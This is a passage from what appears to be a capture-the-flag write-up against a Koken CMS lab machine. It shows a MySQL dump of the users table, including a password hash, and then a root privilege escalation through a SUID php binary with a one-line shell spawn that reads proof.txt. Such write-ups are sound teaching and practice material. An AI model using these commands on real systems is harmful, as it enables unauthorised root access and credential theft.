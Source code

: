 ```
$ mysql --user=kokenuser --password=user_password_here --host=localhost --port=3306 koken -e 'show tables;'
Tables_in_koken
koken_albums
koken_applications
koken_categories
koken_content
koken_drafts
koken_history
koken_join_albums_categories
koken_join_albums_content
koken_join_albums_covers
koken_join_albums_tags
koken_join_albums_text
koken_join_categories_content
koken_join_categories_text
koken_join_content_tags
koken_join_tags_text
koken_plugins
koken_settings
koken_slugs
koken_tags
koken_text
koken_trash
koken_urls
koken_users
```

```
$ mysql --user=kokenuser --password=user_password_here --host=localhost --port=3306 koken -e 'select * from koken_users limit 5;'
id	password	email	created_on	modified_on	first_name	last_name	public_first_name	public_last_name	public_display	public_email	twitter	facebook	google	internal_id	remember_me
1	$2a$08$ruF3jtzIEZF1JMy/osNYj.ibzEiHWYCE4qsC6P/sMBZorx2ZTSGwK	daisa@photographer.com	1595292775	1595292775	daisa	ahomi	daisa	ahomi	both	daisa@photographer.com	NULL	NULL	NULL	6d9505613547705d48ec6ac1792b18e0	NULL
```

Nothing really useful here (checked the other tables and also nothing useful).

18) The php binary has SUID bit - so technically we should be able to just spawn a shell with PHP and we'll be root. Let's try.

```
$ which php7.2
/usr/bin/php7.2
$ php7.2 -r 'pcntl_exec("/bin/bash", ["-p"]);'
whoami
root
cd /root
ls -la | grep txt 
-rw-------  1 root root   33 Mar  3 00:20 proof.txt
cat proof.txt
230faed90088c31b7b33c95bf28c0993
```
